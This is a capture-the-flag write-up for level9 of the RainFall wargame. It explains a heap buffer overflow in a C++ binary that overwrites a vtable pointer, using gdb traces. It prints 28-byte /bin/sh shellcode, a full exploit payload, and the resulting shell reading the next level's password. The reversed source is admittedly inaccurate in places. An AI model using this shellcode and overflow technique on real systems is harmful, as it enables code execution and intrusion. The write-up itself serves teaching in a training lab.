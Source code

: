 # Level 9

<h3>source.c</h3>

```console
class N {
  private:
    char annotation[100];
    int nb;

  public:
    N(int nb) {
      this->nb = nb;
    }

    int operator+(N &other) {
      return (this->nb + other.nb);
    }

    int operator-(N &other) {
      return (other.nb - this->nb);
    }

    void *setAnnotation(char* str) {
      return (memcpy(this->annotation, str, strlen(str)));
    }
}

int main(int argc, char** argv) {
  if (argc < 1) {
    _exit(1);
  }

  N *l_var1 = new N(5);
  N *l_var2 = new N(6);

  l_var1->setAnnotation(argv[1]);
  return(**l_var2(l_var2, l_var1)); // this im not sure
}
```

<h3>Step</h3>

In this level, the program is written as c++ code and it was quite hard to reverse it, so this might not be super accurate

We can see that there is no `system()` or the `.pass` file being read anywhere, so we might need to use `shellcode` to spawn a shell

The only clue that we can exploit is the `memcpy()` which is vulnerable to buffer overflow as well,

and call to `edx` on line main + 159 which is gotten by dereferrencing [esp+0x10] (l_var2) twice

```console
0x0804867c <+136>:  mov    eax,DWORD PTR [esp+0x10]             copy [esp+0x10] (l_var2) into eax
0x08048680 <+140>:  mov    eax,DWORD PTR [eax]                  copy the content of eax (l_var2) into eax -> *l_var2
0x08048682 <+142>:  mov    edx,DWORD PTR [eax]                  copy the content of eax (*l_var2) into edx -> **l_var2
[...]
0x08048693 <+159>:  call   edx                                  call function edx
```

Each time a dereferrence occoured, means that it will read the content reside on that memory location, so it will looks like this `l_var2[0][0]` or `l_var2`

Our target this time will be to rewrite the address pointed by `l_var2` so that when the program call `edx`, it will be calling to our shell code instead

<h3>Exploit</h3>

First lets get the `shellcode` from `level2` which is 28 bytes

```console
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Next lets visualize the memory area of `l_var1` and `l_var2`

```console
0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>      -> 1st new() return memory address to eax
0x0804861c <+40>:	mov    ebx,eax                    -> put a break point here to get the address to that pointer
[...]
0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>      -> 2nd new() return memory address to eax
0x0804863e <+74>:	mov    ebx,eax                    -> put a break point here to get the address to that pointer

(gdb) break *0x0804861c
Breakpoint 1 at 0x804861c
(gdb) break *0x0804863e
Breakpoint 2 at 0x804863e
(gdb) r aaaa
Starting program: /home/user/level9/level9 aaaa

Breakpoint 1, 0x0804861c in main ()
(gdb) x $eax
0x804a008:	0x00000000                              -> l_var1 will point to this address 0x0804a008
(gdb) continue
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) x $eax
0x804a078:	0x00000000                              -> l_var2 will point to this address 0x0804a078
```
Now we have the address for both variable, lets look at the heap to visualize it better

```console
[...]
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]           -> put a break point here to see the state of the heap after the call of memcpy inside setAnnotation happened

(gdb) break *0x0804867c
Breakpoint 3 at 0x804867c
(gdb) continue
Continuing.

Breakpoint 3, 0x0804867c in main ()
(gdb) x/32wx 0x0804a008
0x804a008:	0x08048848	0x61616161	0x00000000	0x00000000    -> (0x0804a008) memory area of l_var1, started with 0x08048848 (_ZTV1N+8) to indicate this is N class
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071    -> we can see the private int 5 is being written here, but im not sure what 0x71 is
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000    -> (0x0804a078) memory area of l_var2, started with 0x08048848 (_ZTV1N+8) to indicate this is N class
```

The heap memory management is abit different then what we used to see in a `c code`

There is no metadata block between the 2 allocated area, and both memory area located side by side each other

Base on this we can conclude that by adding the offset of `108 bytes`, we could reach the start of `l_var2` and start overwriting the data

Now we need to solve the double dereferrence problem for `l_var2`

```console
0x0804867c <+136>: mov eax,DWORD PTR [esp+0x10] -> copy [esp+0x10] (l_var2) to eax,            now eax = 0x0804a078 (The address point to the start of l_var2 memory area)
0x08048680 <+140>: mov eax,DWORD PTR [eax]      -> copy the content of eax (l_var2) to eax     now eax = 0x08048848 (The address point to virtual table for N class)
0x08048682 <+142>: mov edx,DWORD PTR [eax]      -> copy the content of eax (*l_var2) to edx    now eax = [0x08048848] (The virtual table for N class)
```

What we need to do now is to overwrite `0x0804a078` to point to another address, we could make it point to `l_var1 + 4` (`0x804A00c`) which is the start of the str buffer for `l_var1`

For the second dereferrence, we need to write the starting address of our shellcode into `l_var1 + 4` (`0x804A00c`), so we should put `l_var1 + 8` (`0x804a010`)

Now we can put write out `shellcode` in the `l_var1 + 8` (`0x804A010`) and when the program call `edx`, it will be dereferrence twice and ultimately reach our `shellcode`

Final payload:
`python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 76 + '\x0c\xa0\x04\x08'"`

```console
level9@RainFall:~$ ./level9 `python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 76 + '\x0c\xa0\x04\x08'"`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```